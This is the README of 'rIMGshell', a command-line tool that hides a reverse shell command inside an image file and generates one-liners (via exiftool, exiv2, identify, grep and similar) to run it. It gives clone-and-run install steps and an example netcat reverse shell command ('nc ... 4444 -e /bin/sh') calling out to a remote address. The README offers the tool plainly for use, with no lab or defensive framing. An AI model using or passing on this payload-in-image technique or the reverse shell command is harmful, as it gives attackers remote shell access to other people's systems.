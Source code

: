 # rIMGshell

<img src="https://github.com/git5loxosec/rIMGshell/blob/main/Screenshot_2023-09-22_20_08_14.png">
```

# rIMGshell

rIMGshell is a command-line tool for injecting a reverse shell command into an image and generating one-liner execution methods to exploit it.

## Features

- Inject reverse shell commands into image files.
- Generate one-liner execution methods for various tools.
- Choose from multiple one-liner execution methods.

## Installation

1. Clone the repository:

   ```
   git clone https://github.com/git5loxosec/rIMGshell.git
   ```

2. Change to the project directory:

   ```
   cd rIMGshell
   ```

3. Make the script executable:

   ```
   chmod +x rIMGshell.sh
   ```

## Usage

```
./rIMGshell.sh [OPTIONS] <REVERSE_SHELL_COMMAND> <IMAGE_FILENAME>
```

- `[OPTIONS]` - Optional arguments.
- `<REVERSE_SHELL_COMMAND>` - The reverse shell command to inject.
- `<IMAGE_FILENAME>` - The name of the image file.

**Example:**

```
./rIMGshell.sh "nc 192.168.1.128 4444 -e /bin/sh" image.jpg
```

## One-Liner Execution Methods

- **exiftool-one-liner:** Injected image can be executed with exiftool.
- **exiv2-one-liner:** Injected image can be executed with exiv2.
- **identify-one-liner:** Injected image can be executed with identify.
- **file-grep-one-liner:** Injected image can be executed with file and grep.
- **jpeginfo-grep-one-liner:** Injected image can be executed with jpeginfo and grep.

## Contributing

Contributions are welcome! Please fork the repository and submit a pull request.

## License

This project is licensed under the [MIT License](LICENSE).
```
